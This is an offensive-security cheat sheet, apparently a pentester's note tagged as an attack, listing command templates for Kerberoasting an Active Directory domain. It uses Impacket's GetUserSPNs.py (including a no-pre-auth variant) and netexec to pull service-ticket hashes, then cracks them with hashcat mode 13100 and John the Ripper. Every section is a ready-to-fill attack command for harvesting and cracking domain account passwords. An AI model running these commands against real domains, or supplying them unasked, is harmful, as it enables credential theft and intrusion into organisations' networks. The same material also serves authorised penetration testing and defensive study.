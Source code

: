 # GetUserSPNs
#plateform/linux #target/remote #cat/ATTACK

## GetUserSPNs 
```
GetUserSPNs.py   -usersfile <users_file|users.txt> -outputfile hashes.asreproast <domain>/
```

## Kerberoast Pre-Auth attack
```
GetUserSPNs.py -dc-ip <DC_IP_ADDRESS> <domain>/ -usersfile <users_file> -no-preauth "<No_preauth_account>"
```

## Kerberoasting using nxc
```
netexec ldap <TARGETS> -u <USER> -p <PASSWORD> --kerberoasting kerberoastables.txt --kdcHost <KeyDistributionCenter>
```

## Crack Kerberoasting GetUserSPNs using hashcat
```
hashcat -m 13100 --force -a 0 <hash_file> </path/to/wordlist>
```

## crack Kerberoasting GetUserSPNs using john
```
john --format=krb5tgs --wordlist=</path/to/wordlist> kerberoastables.txt
```

